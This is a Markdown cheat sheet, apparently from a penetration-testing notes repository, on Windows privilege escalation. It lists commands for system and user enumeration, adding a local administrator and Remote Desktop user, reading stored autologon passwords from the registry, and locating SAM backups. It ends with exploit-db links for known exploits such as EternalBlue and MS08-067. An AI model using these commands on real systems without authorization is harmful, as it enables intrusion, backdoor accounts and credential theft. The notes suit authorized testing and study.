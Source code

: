 # Privesc in windows
## Finding operating system info
```
ver
c:\windows\system32\license.rtf
c:\windows\system32\licenses\*
c:\windows\system32\eula..txt
systeminfo | findstr /B /C "OS Name" /C: "OS Version"
```
## important not to put spaces there
```
wmic os get Caption,Version /value
```


## find user info
```
whoami 
echo %username%
net user 
net user someusername
net user username /domain
echo %userprofile%
```

## This wil lalso tell you hostname, domain, software version (generic) and MAC address of NIC
```
net config workstation | find "user name"
```

## shows who's logged in
```
query user
wmic useraccount get name
wmic /node: "127.0.0.1" computersystem get username
qwinsta
cmdkey /list
```

## check installed programs,perms,and hidden files
```
dir /q
dir /r 
attrib -h *.*
wmic /node: "127.0.0.1" product get name,version
```

## shows all kinds of goodies about installed warez
```
wmic product get /format:lisit
```



## manual escalations
```
net user username password /add
net localgroup Administrators username /add
net localgroup "Remote Desktop Users" username /add
psexec.exe -accepteula \\hostname -u hostnanme\username -p password cmd /c net user username password /add
runas /user:hostname\username powershell.exe
reg.exe save
icacls
```

## not on win7
```
reg query "HKLM\Software\Microsoft\WindowsNT\CurrentnVersion\WinLogon" /v DefaultUserName
reg query "HKLM\Software\Microsoft\WindowsNT\CurrentnVersion\WinLogon" /v DefaultPassword
```

## sam fiile locations
```
c:\Windows\System32\Config\RegBack\sam.old
c:\Windows\System32\Config\RegBack\system.old
```

## running services
```
sc query type=service
sc qc servicenamehere
Get-SErvice -DisplayName "Service"
Get-CimInstance Win32_Service -filter "Name='Service'" | Format-list -Property *
```

## checked scheduled tasks /jobs
```
schtasks /query /v /fo LIST
Get-ScheduledTask | where state -eq 'Ready'
```

## MOST COMMON WINDOWS SPLOITS
```
7, 8.1, 2008 R2, 2012 R2, 2016 R2 SMB w/o firewall: Eternalblue (MS17-010): https://www.exploit-db.com/docs/english/42280-how-to-exploit-eternalblue-on-windows-server-2012-r2.pdf
XP MS08-067: 40279 : https://www.exploit-db.com/exploits/40279/
Hashing: FGdump/PWdump (Workgroup) or WCE32/64 (Domain) wce32.exe -w, password returned
XP Pro SP3, 2003 SP2 (use with GUI) - MS11-080: https://www.exploit-db.com/exploits/18176/
Novell Client 2 SP3 on Windows 7 and 8: https://www.exploit-db.com/exploits/27191/
Weak services IIS exploit: churrasco - https://www.exploit-db.com/exploits/6705/
    Usage: churrasco.exe -d cmd.exe
Win7 x86 32bit: GDI Objects - MS17-017 - https://www.exploit-db.com/exploits/42432/
Powerup: https://raw.githubusercontent.com/HarmJ0y/PowerUp/master/PowerUp.ps1
```
